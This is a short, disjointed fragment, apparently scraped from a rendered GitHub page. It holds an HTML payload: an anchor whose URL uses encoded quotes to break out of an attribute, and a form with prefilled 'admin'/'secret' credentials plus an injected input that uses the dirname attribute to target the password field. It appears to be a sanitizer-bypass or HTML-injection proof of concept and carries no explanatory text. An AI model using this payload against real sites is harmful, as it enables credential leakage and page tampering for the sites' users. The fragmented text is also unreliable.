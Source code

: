 <a href='https://raw.githubusercontent.com/smartaptlimited/new/main/bbb%22class%3D%22gfm%22a%3D%27.jpg'>
' data-design="1" data-issue="1" data-reference-type="design" data-original='
  <div id="136"><form action="" method="post">
<input name="username" value="admin" />
<input name="password" type="password" value="secret" />
<input name="injected" value="injected" dirname="password" />
<input type="submit">
</form></div>
'
</a>
